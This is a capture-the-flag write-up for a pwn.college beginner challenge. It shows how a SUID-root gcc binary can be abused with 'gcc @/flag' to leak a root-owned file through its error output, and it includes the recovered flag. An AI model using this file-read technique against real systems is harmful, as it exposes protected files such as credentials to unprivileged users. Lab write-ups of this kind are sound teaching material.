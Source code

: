 # Challenge Name: gcc
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/gcc`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/gcc
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/gcc
```

- The `s` in `-rws` indicates it's a SUID binary.
- `gcc` runs with **root privileges**.

## 🚀 Exploitation

The `gcc` has @ option which read additional command-line options from a file.

```bash
gcc @/flag
```

Output:
```
gcc: error: pwn.college{ohija7-Bp5zIpS8Nc848PscIEAM.dBTOxwSM0IzMyEzW}: No such file or directory
gcc: fatal error: no input files
compilation terminated.
```
